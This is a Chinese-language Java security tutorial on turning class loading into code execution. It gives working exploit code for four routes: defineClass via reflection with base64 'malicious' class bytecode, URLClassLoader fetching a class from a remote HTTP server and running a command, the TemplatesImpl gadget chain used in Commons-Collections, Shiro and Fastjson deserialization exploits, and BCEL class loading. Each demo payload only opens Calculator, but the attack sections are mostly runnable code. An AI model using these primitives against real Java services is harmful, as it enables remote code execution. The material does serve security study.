

## Java 类加载

Java 程序在运行前，Java 虚拟机会将 Java 源代码编译成字节码（即.class 文件），字节码是编译器生成的一种中间形式的代码，它是 Java 源代码的编译结果，并非可直接执行的机器代码。

当 Java 程序被执行时，Java 虚拟机负责将字节码加载到内存中并执行，这就是类加载的过程，这个过程可以简单分为三个阶段，即加载、链接和初始化。加载阶段负责将类文件加载到内存中，链接阶段负责对字节码进行验证、准备和解析，而初始化阶段则负责执行类的初始化器，准备类被使用。

以如下 HelloWorld Java 程序作为示例。

```java
public class HelloWorld {
    public static void main(String[] args) {
        System.out.println("Hello World!");
    }
}
```

若要运行此程序，首先需使用 javac 命令将这个 Java 程序编译出字节码，可使用 javap 命令反汇编 class 文件以查看字节码，或使用 hexdump 命令查看 class 文件的二进制内容。

```shell
$ javac HelloWorld.java

$ javap -c -p -l HelloWorld.class
Compiled from "HelloWorld.java"
public class HelloWorld {
  public HelloWorld();
    Code:
       0: aload_0
       1: invokespecial #1  // Method java/lang/Object."<init>":()V
       4: return
    LineNumberTable:
      line 1: 0

  public static void main(java.lang.String[]);
    Code:
       0: getstatic     #2  // Field java/lang/System.out:Ljava/io/PrintStream;
       3: ldc           #3  // String Hello World!
       5: invokevirtual #4  // Method java/io/PrintStream.println:(Ljava/lang/String;)V
       8: return
    LineNumberTable:
      line 3: 0
      line 4: 8
}

$ hexdump -C HelloWorld.class
00000000  ca fe ba be 00 00 00 34  00 1d 0a 00 06 00 0f 09  |.......4........|
00000010  00 10 00 11 08 00 12 0a  00 13 00 14 07 00 15 07  |................|
00000020  00 16 01 00 06 3c 69 6e  69 74 3e 01 00 03 28 29  |.....<init>...()|
00000030  56 01 00 04 43 6f 64 65  01 00 0f 4c 69 6e 65 4e  |V...Code...LineN|
00000040  75 6d 62 65 72 54 61 62  6c 65 01 00 04 6d 61 69  |umberTable...mai|
00000050  6e 01 00 16 28 5b 4c 6a  61 76 61 2f 6c 61 6e 67  |n...([Ljava/lang|
00000060  2f 53 74 72 69 6e 67 3b  29 56 01 00 0a 53 6f 75  |/String;)V...Sou|
00000070  72 63 65 46 69 6c 65 01  00 0f 48 65 6c 6c 6f 57  |rceFile...HelloW|
00000080  6f 72 6c 64 2e 6a 61 76  61 0c 00 07 00 08 07 00  |orld.java.......|
00000090  17 0c 00 18 00 19 01 00  0c 48 65 6c 6c 6f 20 57  |.........Hello W|
000000a0  6f 72 6c 64 21 07 00 1a  0c 00 1b 00 1c 01 00 0a  |orld!...........|
000000b0  48 65 6c 6c 6f 57 6f 72  6c 64 01 00 10 6a 61 76  |HelloWorld...jav|
000000c0  61 2f 6c 61 6e 67 2f 4f  62 6a 65 63 74 01 00 10  |a/lang/Object...|
000000d0  6a 61 76 61 2f 6c 61 6e  67 2f 53 79 73 74 65 6d  |java/lang/System|
000000e0  01 00 03 6f 75 74 01 00  15 4c 6a 61 76 61 2f 69  |...out...Ljava/i|
000000f0  6f 2f 50 72 69 6e 74 53  74 72 65 61 6d 3b 01 00  |o/PrintStream;..|
00000100  13 6a 61 76 61 2f 69 6f  2f 50 72 69 6e 74 53 74  |.java/io/PrintSt|
00000110  72 65 61 6d 01 00 07 70  72 69 6e 74 6c 6e 01 00  |ream...println..|
00000120  15 28 4c 6a 61 76 61 2f  6c 61 6e 67 2f 53 74 72  |.(Ljava/lang/Str|
00000130  69 6e 67 3b 29 56 00 21  00 05 00 06 00 00 00 00  |ing;)V.!........|
00000140  00 02 00 01 00 07 00 08  00 01 00 09 00 00 00 1d  |................|
00000150  00 01 00 01 00 00 00 05  2a b7 00 01 b1 00 00 00  |........*.......|
00000160  01 00 0a 00 00 00 06 00  01 00 00 00 01 00 09 00  |................|
00000170  0b 00 0c 00 01 00 09 00  00 00 25 00 02 00 01 00  |..........%.....|
00000180  00 00 09 b2 00 02 12 03  b6 00 04 b1 00 00 00 01  |................|
00000190  00 0a 00 00 00 0a 00 02  00 00 00 03 00 08 00 04  |................|
000001a0  00 01 00 0d 00 00 00 02  00 0e                    |..........|
000001aa
```

最后使用 java 命令运行编译好了的 class 文件，在这个过程中，JVM 会对 class 的二进制内容进行解析，并执行如上 javap 命令查看的字节码。

```shell
$ java HelloWorld
Hello World!
```

## ClassLoader

类加载器 ClassLoader 是实现类加载机制的一个重要组成部分，负责将类文件加载到内存中并转换为可执行的 Java 类。java.lang.ClassLoader 是所有类加载器的父类，在其中有三个关键方法：

- loadClass(String name, boolean resolve)：该方法用于加载类，并根据 resolve 参数决定是否解析该类，如果 resolve 为 true，则在加载类的同时，也会解析该类的依赖项。
- findClass(String name)：该方法用于查找并加载指定名称的类。
- defineClass(String name, byte[] b, int off, int len)：该方法将一个字节数组表示的类定义转换为一个 Class 对象，用于将类的字节码转换为 Class 对象。

可见，由字节数组到 Class 对象最终依靠的还是 defineClass 方法，如下将演示利用 defineClass 方法直接加载字节码。首先准备一个恶意类 CMD，其内容如下，不要带 package 包名。

```java
public class CMD {
    public static Process exec(String cmd) throws Exception {
        return Runtime.getRuntime().exec(cmd);
    }
}
```

将其编译，并复制 class 字节码的 Base64 编码。

```shell
javac CMD.java && cat CMD.class | base64 | pbcopy
```

然后通过 defineClass 直接加载字节码，但由于 defineClass 的访问修饰符为 protected，这使得该类无法在外部直接访问，所以需要使用反射技术。

```java
protected final Class<?> defineClass(String name, byte[] b, int off, int len) throws ClassFormatError {
    return defineClass(name, b, off, len, null);
}
```

最终构造如下利用，运行便会成功弹出计算器。由于 defineClass 的访问修饰符为 protected，这使得在实战中，不可能直接使用到 defineClass，但不过存在一些间接路线能够对 defineClass 进行间接调用。

```java
package com.javasec.cl;

import java.lang.reflect.Method;
import java.util.Base64;

public class DefineClassRCE {
    public static void main(String[] args) throws Exception {
        Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);
        defineClass.setAccessible(true);

        byte[] code = Base64.getDecoder().decode("yv66vgAAADQAHAoABgAPCgAQABEIABIKABAAEwcAFAcAFQEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAWAQAKU291cmNlRmlsZQEACENNRC5qYXZhDAAHAAgHABcMABgAGQEAEm9wZW4gLWEgQ2FsY3VsYXRvcgwAGgAbAQADQ01EAQAQamF2YS9sYW5nL09iamVjdAEAE2phdmEvbGFuZy9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAABAAEABwAIAAIACQAAAC4AAgABAAAADiq3AAG4AAISA7YABFexAAAAAQAKAAAADgADAAAAAgAEAAMADQAEAAsAAAAEAAEADAABAA0AAAACAA4=");

        Class p = (Class) defineClass.invoke(ClassLoader.getSystemClassLoader(), "CMD", code, 0, code.length);
        p.newInstance();
    }
}
```





## URLClassLoader

java.net.URLClassLoader 是 Java 中的一个类加载器，用于从指定的 URL 加载类文件，URLClassLoader 允许动态加载远程的类文件，并在运行时将其转换为可执行代码。

URLClassLoader 类继承 SecureClassLoader，而 SecureClassLoader 又继承 ClassLoader。这样，URLClassLoader 便能调用 ClassLoader.loadClass 方法。

```java
public class URLClassLoader extends SecureClassLoader implements Closeable
```

```java
public class SecureClassLoader extends ClassLoader
```

还是准备如上相同的恶意 CMD 类。

```java
public class CMD {
    public static Process exec(String cmd) throws Exception {
        return Runtime.getRuntime().exec(cmd);
    }
}
```

使用 javac 命令将 CMD 编译，由于 loadClass 方法会优先从本地找起，所以需要将编译后的 CMD.class 放置在项目之外的目录，不然就会找到本地的。

```shell
$ /tmp/web/ javac CMD.java
$ /tmp/web/ ls
CMD.class CMD.java
```

起一个 Web 服务，监听 9999 端口。

```shell
$ /tmp/web/ python -m http.server 9999
Serving HTTP on :: port 9999 (http://[::]:9999/) ...
```

最终构造如下代码。

```java
package com.javasec.cl;

import java.net.URL;
import java.net.URLClassLoader;

public class URLClassLoaderRCE {
    public static void main(String[] args) throws Exception {

        // 定义远程加载的URL
        URL url = new URL("<http://192.168.1.101:9999/>");

        // 创建URLClassLoader对象
        URLClassLoader loader = new URLClassLoader(new URL[]{url});

        // 加载URLClassLoader中的CMD类，不要将CMD.java或CMD.class放在这个项目的目录中，否则会先从本地找起
        Class c = loader.loadClass("CMD");

        // 调用CMD中的exec方法，并传入open -a Calculator命令用以执行
        Process process = (Process) c.getMethod("exec", String.class).invoke(null, "open -a Calculator");
    }
}
```

在运行其的过程中，会调用 loadClass 方法用于加载 CMD 类。

```java
protected Class<?> loadClass(String name, boolean resolve) throws ClassNotFoundException {
    synchronized (getClassLoadingLock(name)) {
        // First, check if the class has already been loaded
        Class<?> c = findLoadedClass(name);
        if (c == null) {
            long t0 = System.nanoTime();
            try {
                if (parent != null) {
                    c = parent.loadClass(name, false);
                } else {
                    c = findBootstrapClassOrNull(name);
                }
            } catch (ClassNotFoundException e) {
                // ClassNotFoundException thrown if class not found
                // from the non-null parent class loader
            }

            if (c == null) {
                // If still not found, then invoke findClass in order
                // to find the class.
                long t1 = System.nanoTime();
                c = findClass(name);

                // this is the defining class loader; record the stats
                sun.misc.PerfCounter.getParentDelegationTime().addTime(t1 - t0);
                sun.misc.PerfCounter.getFindClassTime().addElapsedTimeFrom(t1);
                sun.misc.PerfCounter.getFindClasses().increment();
            }
        }
        if (resolve) {
            resolveClass(c);
        }
        return c;
    }
}
```

在 loadClass 方法中调用了 findClass 方法用于查找并加载 CMD 类。

```java
protected Class<?> findClass(final String name) throws ClassNotFoundException {
    final Class<?> result;
    try {
        result = AccessController.doPrivileged(
            new PrivilegedExceptionAction<Class<?>>() {
                public Class<?> run() throws ClassNotFoundException {
                    String path = name.replace('.', '/').concat(".class");
                    Resource res = ucp.getResource(path, false);
                    if (res != null) {
                        try {
                            return defineClass(name, res);
                        } catch (IOException e) {
                            throw new ClassNotFoundException(name, e);
                        }
                    } else {
                        return null;
                    }
                }
            }, acc);
    } catch (java.security.PrivilegedActionException pae) {
        throw (ClassNotFoundException) pae.getException();
    }
    if (result == null) {
        throw new ClassNotFoundException(name);
    }
    return result;
}
```


而 findClass 中又对 defineClass 方法进行了调用，该方法用于将一个字节数组表示的类定义转换为一个 Class 对象。

```java
protected final Class<?> defineClass(String name, byte[] b, int off, int len, ProtectionDomain protectionDomain) throws ClassFormatError {
    protectionDomain = preDefineClass(name, protectionDomain);
    String source = defineClassSourceLocation(protectionDomain);
    Class<?> c = defineClass1(name, b, off, len, protectionDomain, source);
    postDefineClass(c, protectionDomain);
    return c;
}
```


最终，Web 服务器将接收到一个请求，计算器也成功弹出。

```shell
$ /tmp/web/ python -m http.server --bind 127.0.0.1 9999
Serving HTTP on :: port 9999 (http://[::]:9999/) ...
::ffff:192.168.1.101 - - [10/January/2023 12:40:17] "GET /CMD.class HTTP/1.1" 200 -
```

## TemplatesImpl

com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl 类的作用是表示 XSLT 模板，它可以解析 XSLT 样式表并将其编译成可重用的模板。XSLT 是一种 XML 风格语言，用于将 XML 文档转换为其他格式，比如 HTML、文本或其他 XML 文档。

前面通过 defineClass 直接加载字节码时，由于 defineClass 方法的访问修饰符为 protected，不得不使用到反射技术才得以利用，这使得 defineClass 在实战利用中没法被直接利用，不过也提到了存在一些间接路线能够对 defineClass 进行间接调用，TemplatesImpl 便是间接路线之一。TemplatesImpl 在后续的多个反序列化链及实际场景中都会有所体现，如 CommonsCollections2、CommonsCollections3、CommonsCollections4、CommonsBeanutils1、Shiro 反序列化利用和 Fastjson 反序列化利用等，其重要性不言而喻。

在 TemplatesImpl 类中定义了一个内部类，即 TransletClassLoader，在这个类中有对 defineClass 进行重写，且未显式声明访问修饰符，在这种情况下，默认访问级别是包级私有，即该类能够被同一个包中的其他类访问。这样，此处的 defineClass 便可以被调用了。

```java
static final class TransletClassLoader extends ClassLoader {
    private final Map<String,Class> _loadedExternalExtensionFunctions;

     TransletClassLoader(ClassLoader parent) {
         super(parent);
        _loadedExternalExtensionFunctions = null;
    }

    TransletClassLoader(ClassLoader parent,Map<String, Class> mapEF) {
        super(parent);
        _loadedExternalExtensionFunctions = mapEF;
    }

    public Class<?> loadClass(String name) throws ClassNotFoundException {
        Class<?> ret = null;
        // The _loadedExternalExtensionFunctions will be empty when the
        // SecurityManager is not set and the FSP is turned off
        if (_loadedExternalExtensionFunctions != null) {
            ret = _loadedExternalExtensionFunctions.get(name);
        }
        if (ret == null) {
            ret = super.loadClass(name);
        }
        return ret;
     }

    /**
     * Access to final protected superclass member from outer class.
     */
    Class defineClass(final byte[] b) {
        return defineClass(null, b, 0, b.length);
    }
}
```

那么，便对 TransletClassLoader 类进行 Find Usages，可看到它在 TemplatesImpl#defineTransletClasses 方法中存在被调用。


但由于 defineTransletClasses 方法的访问修饰符为 private，所以需继续向前 Find Usages。


在 getTransletClasses、getTransletIndex 和 getTransletInstance 三个方法中发现存在 defineTransletClasses 方法的调用，且 getTransletIndex 的访问修饰符是 public，但是 getTransletIndex 是行不通的，原因后面再说。

尝试继续向前追溯，发现在 newTransformer 方法中存在 getTransletInstance 方法的调用，且 newTransformer 方法的访问修饰符为 public，可被外部进行调用。

```java
public synchronized Transformer newTransformer()
    throws TransformerConfigurationException
{
    TransformerImpl transformer;

    transformer = new TransformerImpl(getTransletInstance(), _outputProperties,
        _indentNumber, _tfactory);

    if (_uriResolver != null) {
        transformer.setURIResolver(_uriResolver);
    }

    if (_tfactory.getFeature(XMLConstants.FEATURE_SECURE_PROCESSING)) {
        transformer.setSecureProcessing(true);
    }
    return transformer;
}
```

如此，便可通过 newTransformer 方法构造利用代码。

```java
package com.javasec.cl;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;

import java.lang.reflect.Field;
import java.util.Base64;

public class TemplatesImplRCE {

    public static void main(String[] args) throws Exception {
        byte[] code = Base64.getDecoder().decode("yv66vgAAADQAIQoABgATCgAUABUIABYKABQAFwcAGAcAGQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxpbml0PgEAAygpVgcAGwEAClNvdXJjZUZpbGUBAAhSQ0UuamF2YQwADgAPBwAcDAAdAB4BABJvcGVuIC1hIENhbGN1bGF0b3IMAB8AIAEAEmNvbS9qYXZhc2VjL2NsL1JDRQEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBADljb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BABNqYXZhL2xhbmcvRXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwAhAAUABgAAAAAAAwABAAcACAACAAkAAAAZAAAAAwAAAAGxAAAAAQAKAAAABgABAAAACwALAAAABAABAAwAAQAHAA0AAgAJAAAAGQAAAAQAAAABsQAAAAEACgAAAAYAAQAAAA4ACwAAAAQAAQAMAAEADgAPAAIACQAAAC4AAgABAAAADiq3AAG4AAISA7YABFexAAAAAQAKAAAADgADAAAAEQAEABIADQATAAsAAAAEAAEAEAABABEAAAACABI=");

        TemplatesImpl obj = new TemplatesImpl();

        setFieldValue(obj, "_name", "T");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        setFieldValue(obj, "_bytecodes", new byte[][]{code});

        obj.newTransformer();
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

其中，为顺利的从 newTransformer()方法到达 TransletClassLoader 类，须满足这个过程中的种种限制，首先是`_name`不能为 null，可以为任意字符，因为在 getTransletInstance 方法中存在对`_name`的非 null 判断；`_tfactory`则需要是一个 TransformerFactoryImpl 对象，因为在 defineTransletClasses 方法中有调用到`_tfactory.getExternalExtensionsMap()`，getExternalExtensionsMap 属于 TransformerFactoryImpl 类；最后的`_bytecodes`是由字节码组成的数组。

另外，在 TemplatesImpl 中对加载的字节码也是有要求的，原因是因为在 getTransletInstance 方法中会通过反射实例化一个 AbstractTranslet 对象，即`AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();`代码行。

```java
private Translet getTransletInstance()
    throws TransformerConfigurationException {
    try {
        if (_name == null) return null;

        if (_class == null) defineTransletClasses();

        // The translet needs to keep a reference to all its auxiliary
        // class to prevent the GC from collecting them
        AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();

        // ……

        return translet;
    }
    // ……
}
```

为保证此处能够成功实例化，`_transletIndex`不可等于默认值-1，但不过在 defineTransletClasses 方法中有对`_transletIndex`进行重新赋值，满足`(superClass.getName().equals(ABSTRACT_TRANSLET))`判别式即可，即加载的字节码对应的类的父类必须是 com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet。

```java

private static String ABSTRACT_TRANSLET
        = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";

// ……

private void defineTransletClasses() throws TransformerConfigurationException {

    // ……
        for (int i = 0; i < classCount; i++) {
            _class[i] = loader.defineClass(_bytecodes[i]);
            final Class superClass = _class[i].getSuperclass();

            // Check if this is the main class
            if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
                _transletIndex = i;
            }
            else {
                _auxClasses.put(_class[i].getName(), _class[i]);
            }
        }

    // ……
}
```

在上面提到了 getTransletIndex 行不通，这是因为在 getTransletIndex 中压根就没有调用到 newInstance 进行实例化。

```java
public synchronized int getTransletIndex() {
    try {
        if (_class == null) defineTransletClasses();
    }
    catch (TransformerConfigurationException e) {
        // Falls through
    }
    return _transletIndex;
}
```

由此，构造如下继承 AbstractTranslet 的 RCE 类。

```java
package com.javasec.cl;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class RCE extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {};
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {};

    public RCE() throws Exception {
        super();
        Runtime.getRuntime().exec("open -a Calculator");
    }
}
```

编译它，并复制 class 的 Base64 编码，将编码内容放置在如上利用代码中的 decode 方法中，运行便会弹出计算器。

```shell
javac RCE.java && cat RCE.class | base64 | pbcopy
```


当然，还可以通过使用 javassist 将 RCE 生成字节码的方式。如下，运行后依旧弹出计算器。

```java
package com.javasec.cl;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;

import java.lang.reflect.Field;

public class TemplatesImplRCE2 {

    public static void main(String[] args) throws Exception {

        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass clas = pool.makeClass("RCE2");

        clas.setSuperclass(pool.get(AbstractTranslet.class.getName()));

        String cmd = "Runtime.getRuntime().exec(\\"open -a Calculator\\");";

        CtConstructor constructor = clas.makeClassInitializer();
        constructor.insertBefore(cmd);
        clas.writeFile("./");
        /*
        如上代码将生成如下RCE2
        import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;

        public class RCE2 extends AbstractTranslet {
            static {
                Runtime.getRuntime().exec("open -a Calculator");
            }

            public RCE2() {
            }
        }
         */

        byte[] bytes = clas.toBytecode();

        TemplatesImpl obj = TemplatesImpl.class.newInstance();

        Class temp = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        Field _name = temp.getDeclaredField("_name");
        _name.setAccessible(true);
        _name.set(obj,"T");

        setFieldValue(obj, temp,"_name", "T");
        setFieldValue(obj, temp,"_tfactory", new TransformerFactoryImpl());
        setFieldValue(obj, temp,"_bytecodes", new byte[][]{bytes});

        obj.newTransformer();
        // obj.getTransletIndex();
    }

    public static void setFieldValue(Object obj,Class clas, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```


如上使用的完整利用链为 newTransformer()—>getTransletInstance()—>defineTransletClasses()—>TransletClassLoader，如果继续对 newTransformer 方法进行 Find Usages，会发现它在 getOutputProperties 方法中有被调用，getOutputProperties 方法的访问修饰符为 public，完全满足利用条件，这相当于有两种不同的利用链实现，虽然两者存在重叠，但依旧能够扩展在实际利用中的多样性和可能性，譬如在 CommonsBeanutils1、Fastjson 反序列化利用中就会用到 getOutputProperties，而非直接用到 newTransformer。

```java
getOutputProperties()—>newTransformer()—>getTransletInstance()—>defineTransletClasses()—>TransletClassLoader
```


## BCEL

BCEL 全称 Byte Code Engineering Library，顾名思义，它是 Apache Commons 下的一个用于操作 Java 字节码的库，BCEL 旨在为用户提供一种便捷的方式来分析、创建和操作以.class 结尾的二进制 Java 类文件，使用户能够在编译后的 Java 类文件级别上进行操作，而不是仅限于源代码级别。

BCEL 提供了两个核心类，即 com.sun.org.apache.bcel.internal.Repository 和 com.sun.org.apache.bcel.internal.Utility。Repository 用于管理已加载的类和其对应的字节码信息，其提供了一个 lookupClass 用以查找已加载的类；Utility 则提供了一系列静态方法用于操作字节码，例如对打印或编码字节码。

如下对 BCEL 加载字节码做演示，首先还是准备一个恶意 Evil 类。

```java
package com.javasec.cl.bcel;

public class Evil {
    static {
        try {
            Runtime.getRuntime().exec("open -a Calculator");
        } catch (Exception e) {}
    }
}
```

如下构造如下利用代码，其中 Utility.encode 方法用于将字节数组编码为一个字符串表示形式，如果接受的第二个参数为 true，则会先对字节数组进行 gzip 压缩，然后再进行编码为字符串形式。最后使用 ClassLoader 加载类，并实例化。

```java
package com.javasec.cl.bcel;

import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

public class BCELRCE {
    public static void main(String[] args) throws Exception {
        JavaClass jcls = Repository.lookupClass(Evil.class);
        String code = Utility.encode(jcls.getBytes(), true);
        System.out.println(code);

        new ClassLoader().loadClass("$$BCEL$$" + code).newInstance();
    }
}
```

最终执行如上程序后便会弹出计算器。


BCEL 在 Java 8u251 及之后的版本中无法使用，这是由于在后续的版本中 com.sun.org.apache.bcel.internal.util.ClassLoader 已被移除。

## 参考

[https://xalan.apache.org/](https://xalan.apache.org/)

[https://commons.apache.org/proper/commons-bcel/](https://commons.apache.org/proper/commons-bcel/)

[https://www.javasec.org/javase/ClassLoader/](https://www.javasec.org/javase/ClassLoader/)

[https://github.com/phith0n/JavaThings/](https://github.com/phith0n/JavaThings/)
